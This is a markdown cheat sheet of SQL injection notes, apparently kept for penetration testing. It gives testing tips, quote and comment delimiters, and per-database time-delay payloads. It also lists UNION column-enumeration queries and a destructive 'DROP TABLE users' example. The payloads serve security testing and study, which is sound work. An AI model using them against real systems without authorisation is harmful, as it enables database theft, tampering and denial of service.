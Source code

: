 
!!! alert "note"
	 Think outside the box for injectable parameters. Anything that could be passed to a db is worth testing against. ie UAs, cookies, etc…

!!! alert "note"
	when fuzzing for SQL injection, try 1. replacing valid data with payloads, 2. appending payloads to the end of valid data

!!! alert "note"
	Be very careful with SQL injection payloads, likely potential for DOS, ask for permission if you find something.
## Key Delimiters and Enclosures

- `'`, `"`: Standard string delimiters. E.g., `' OR '1'='1`
- `\\: MySQL identifier quoting. E.g.,` column `= 'value'` `
- `;`: Statement separator. E.g., `SELECT * FROM users; DROP TABLE users;`
- `-`, `/*...*/`: SQL comments. E.g., `-comment`, `/* comment */`
## Injection Patterns

- Basic Injection: `' OR 1=1--`
- Closing Brackets: Try closing out functions or statements. E.g., `')`, `'))`, `')))--`, `%'))-- -`
- Logical Operators: `OR`, `AND`. E.g., `' OR 'x'='x`
- Union Injection: `' UNION SELECT ... --`
- Conditional Time Delays (for blind SQLi):
    - MySQL: `'; SELECT SLEEP(5);--`
    - MSSQL: `'; WAITFOR DELAY '00:00:05';--`
    - Oracle: `'; dbms_lock.sleep(5);--`
    - PostgreSQL: `'; SELECT pg_sleep(5);--`
- Out-of-Band: Through DNS or HTTP. E.g., DNS lookup triggered by SQL query.

## Enumerate DB Type
---
[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

PostgreSQL: 	`SELECT pg_sleep(10)`
MySQL: 	`SELECT SLEEP(10)`
Oracle: 	`dbms_pipe.receive_message(('a'),10)`
Microsoft: 	`WAITFOR DELAY '0:0:10'`
## Automated
---
See [SQLMap](../../Methodologies/😏%20Cheatsheets/SQLMap.md) cheat sheet

## Cheat Sheet Per DB Type
---
### Basic
**Logical or**
```Python
' OR 1=1-- -
```
**Union - Enum number of columns**
```Python
' union select null#
' union select null,null#
' union select null,null,null#
```
**Now that you know number of columns, return any query results**
```Python
' union select null,null,version()#
```